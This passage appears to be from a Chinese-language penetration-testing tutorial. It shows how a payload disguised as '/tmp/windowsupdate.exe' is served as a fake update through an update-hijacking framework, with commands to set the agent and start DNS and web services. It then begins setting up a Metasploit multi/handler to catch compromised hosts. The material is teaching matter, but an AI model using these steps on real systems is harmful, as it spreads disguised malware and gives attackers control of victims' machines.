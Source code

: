 ![](img/35cce0f2-19da-4421-bb4f-8010723ab26b.png)

我们已将有效负载保存到`/tmp/windowsupdate.exe`，因此需要将代理设置为此路径。

在 running Grade framework 窗口中，键入以下内容以将负载设置为自定义负载：

```
set agent /tmp/windowsupdate.exe # This sets the agent to the custom agent.
show options # This will show the module's options to check the settings.
start # This will start both the DNS and Web service for the attack.  
```

![](img/3f277827-fadf-48a1-a3ac-cf3f39bbcc19.png)

现在，为了允许连接，我们需要设置一个 multi/handler，在系统被破坏后接受绑定连接。从我们正在运行的 Metasploit 终端，我们在后台运行 BadTunnel，我们将启动一个`multi/handler`并在后台运行它。在 Metasploit 中，运行以下命令：
